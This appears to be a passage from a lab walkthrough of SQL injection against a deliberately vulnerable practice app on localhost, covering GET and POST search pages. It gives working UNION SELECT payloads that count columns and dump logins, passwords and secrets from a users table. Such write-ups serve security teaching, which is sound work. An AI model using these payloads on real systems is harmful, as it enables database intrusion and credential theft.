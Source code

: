 ![](https://cdn-images-1.medium.com/max/704/1*fH6YVEtiYdVcpM7QrRvPCA.png)

URL: [http://localhost:8080/sqli_2.php](http://localhost:8080/sqli_2.php)

URL is getting changed upon selecting a movie

![](https://cdn-images-1.medium.com/max/701/1*crKATpiDjzs7nW8Uu8ZkmA.png)

> [http://localhost:8080/sqli_2.php?movie=3&action=go](http://localhost:8080/sqli_2.php?movie=3&action=go)

Checking if the url is vulnerable

[http://localhost:8080/sqli_2.php?movie=3%27&action=go](http://localhost:8080/sqli_2.php?movie=3%27&action=go) (%27 is url encode of `'`)

> Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’’ at line 1

✅ Confirms the URL parameter is **vulnerable to SQLi**.

Whenever we enter 1, 2, etc., we get only that specific movie. By observing closely, we noticed that the movie names start with ID 1.  
Now, let’s try movie=0 to find the number of columns.

**Find Number of Columns:**

http://localhost:8080/sqli_2.php?movie=0%20union%20select%201,2,3,4,5,6,7%20--%20-&action=go

![](https://cdn-images-1.medium.com/max/701/1*hcrUCDeecVJ5o2WQwOw4Gg.png)

👉 Only **2, 3, 4, 5** are reflected in the response.

**Dump Data from** **users Table:**

> [http://localhost:8080/sqli_2.php?movie=0%20union%20select%201,(select%20group_concat(id,0x3a,login,0x3a,password,0x3a,secret,0x3a,admin%20separator%200x0a)%20from%20users),3,4,5,6,7%20--%20-](http://localhost:8080/sqli_2.php?movie=0%20union%20select%201,(select%20group_concat(id,0x3a,login,0x3a,password,0x3a,secret,0x3a,admin%20separator%200x0a)%20from%20users),3,4,5,6,7%20--%20-)

![](https://cdn-images-1.medium.com/max/773/1*7ToYXPwCh9tVqjIdTsJHYA.png)

👉 Retrieved all user details (ID, login, password, secret, admin status).

---

### SQL Injection (POST/Search)

![](https://cdn-images-1.medium.com/max/773/1*mhhyow28F-FFh14tqDrw-A.png)

**Dump data from** **users table:**

Using the same query as in the GET/search challenge..

<pre>
' UNION SELECT NULL, GROUP_CONCAT(CONCAT_WS(':', id, login, password, email, secret)), NULL, NULL, NULL, NULL, NULL FROM users -- - </pre>

